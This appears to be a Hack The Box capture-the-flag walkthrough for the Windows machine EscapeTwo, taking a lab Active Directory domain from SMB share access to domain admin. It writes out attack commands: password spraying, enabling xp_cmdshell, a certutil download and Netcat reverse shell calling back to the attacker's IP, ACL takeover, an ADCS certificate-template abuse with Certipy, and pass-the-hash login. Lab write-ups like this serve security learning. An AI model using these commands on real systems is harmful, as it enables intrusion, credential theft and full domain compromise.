# EscapeTwo HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-EscapeTwo-green?logo=hackthebox)](https://www.hackthebox.com)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/HTB/Challenges)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/HTB/Challenges)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

EscapeTwo is an easy Windows domain machine showcasing a full AD domain takeover:
- Starting with user credentials for domain enumeration and SMB share access,
- Fixing a corrupted Excel file header to extract hidden credentials,
- Using extracted credentials for MSSQL authentication and command execution (xp_cmdshell),
- Leveraging reverse shell with Netcat and certutil for lateral movement,
- Performing password spraying on WinRM and SMB for further access,
- Enumerating and abusing AD ACLs to control certificate services user,
- Exploiting misconfigured Active Directory Certificate Services (ADCS) to impersonate domain admin,
- Finally, gaining domain admin access and retrieving the root flag.

---

## Table of Contents

- [1. Initial Enumeration](#1-initial-enumeration)
- [2. SMB Share Enumeration and File Extraction](#2-smb-share-enumeration-and-file-extraction)
- [3. Repairing Corrupted Excel File](#3-repairing-corrupted-excel-file)
- [4. Password Spraying and MSSQL Access](#4-password-spraying-and-mssql-access)
- [5. Enabling xp_cmdshell and Reverse Shell](#5-enabling-xp_cmdshell-and-reverse-shell)
- [6. Lateral Movement Using WinRM](#6-lateral-movement-using-winrm)
- [7. Active Directory Enumeration with BloodHound](#7-active-directory-enumeration-with-bloodhound)
- [8. ACL Abuse and ADCS Enumeration](#8-acl-abuse-and-adcs-enumeration)
- [9. Exploiting Vulnerable Certificate Template](#9-exploiting-vulnerable-certificate-template)
- [10. Domain Admin Access and Root Flag](#10-domain-admin-access-and-root-flag)
- [11. Stepwise PoC (click to expand)](#stepwise-poc-click-to-expand)

---

## 1. Initial Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.232.128 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.232.128
```

- Scans all TCP ports, extracts open ports, then runs version detection and default NSE scripts on those ports.
- Open services included SMB(445), LDAP(389), Kerberos(88), and MSSQL(1433).
 ```
 echo "10.129.232.128 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts`
 ```
- Adds IP to hosts for domain resolution.

---

## 2. SMB Share Enumeration and File Extraction
```
netexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.232.128
use Accounting Department
ls
get accounts.xlsx`
```
- Lists SMB shares accessible with user `rose`.
- Downloads `accounts.xlsx` – a corrupted Excel file suspected to contain secrets.

---

## 3. Repairing Corrupted Excel File
```
file accounts.xlsx
7z x accounts.xlsx
hexedit accounts.xlsx
xxd accounts.xlsx
```
- Determine file type: `.xlsx` files are ZIP archives.
- Extraction fails due to corrupted header bytes `50 48 04 03`.
- Manual hex edit to fix header to standard ZIP magic bytes `50 4B 03 04`.
- File opens successfully, revealing credentials inside.

---

## 4. Password Spraying and MSSQL Access

`netexec smb 10.129.232.128 -u users.txt -p pass.txt`

- Password spray with user and password lists to find valid combinations (finds valid user `oscar`).

```
netexec mssql 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.232.128
```
- Connect to MSSQL with high-privilege `sa` account using found credentials.

Enable command execution:
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
- Enables `xp_cmdshell` procedure to run OS commands, reveals `sequel\sql_svc` user.

---

## 5. Enabling xp_cmdshell and Reverse Shell
```
nc -lnvp 4455
python3 -m http.server 4000
```
- Start a Netcat listener and simple HTTP server locally.
- Start a Netcat listener and simple HTTP server locally.

```
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.96:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.96 4455';
```
- Downloads Netcat to victim using `certutil`.
- Executes Netcat to connect back and spawn a reverse shell on attacker machine.

---

## 6. Lateral Movement Using WinRM
```
net user
nxc winrm sequel.htb -u Users.txt -p 'WqSZAF6CysDQbGb3'
evil-winrm -i 10.129.232.128 -u ryan -p 'WqSZAF6CysDQbGb3'
```
- Enumerate users on Windows.
- Spray Password on WinRM port 5985 to find valid login (`ryan`).
- Use Evil-WinRM to spawn remote PowerShell session as `ryan`.
- Retrieve user flag for confirmation.

---

## 7. Active Directory Enumeration with BloodHound

`bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.232.128 -c all --zip`

- Perform comprehensive enumeration of AD structure, permissions, and sessions.
- Identify privilege escalation paths involving `ca_svc` account.

---

## 8. ACL Abuse and ADCS Enumeration
```
python owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
python dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```
- Change ownership and grant `FullControl` to `ryan` over `ca_svc`.
- Also we can reset `ca_svc` password via PowerView or similar tools.

---

## 9. Exploiting Vulnerable Certificate Template
 ```
 certipy shadow -account ca_svc -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' auto 
 certipy find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -text
 certipy template -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -template 'DunderMifflinAuthentication' -save-old
 certipy req -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn     
 administrator@sequel.htb -dns dc01.sequel.htb	
 certipy auth -pfx administrator_dc01.pfx
```
- Enumerate CA templates and spot misconfigurations.
- Modify template to remove approval requirement and enable client authentication.
- Request a certificate impersonating administrator.
- Authenticate with the certificate and extract domain admin NTLM hash.

---

## 10. Domain Admin Access and Root Flag
```
evil-winrm -i 10.128.124.12 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
whoami
type C:\Users\Administrator\Desktop\root.txt
```
- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## 11. Stepwise PoC (click to expand)

- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## Tools & References

- **NetExec (nxc):** Network service exploitation and spraying
- **Impacket:** SMB and MSSQL clients
- **BloodHound:** AD permission visualizer and enumeration
- **Certipy:** ADCS enumeration and exploitation
- **Evil-WinRM:** Remote PowerShell shell over WinRM
- **Standard Linux tools:** `nmap`, `netcat`, `file`, `7z`, `hexedit`

---

## Final Notes

- Master the flow from enumeration → foothold → lateral movement → escalation.
- ADCS misconfiguration remains a powerful vector in domain takeovers.
- Proper ACL management and template hardening are critical defenses.

---




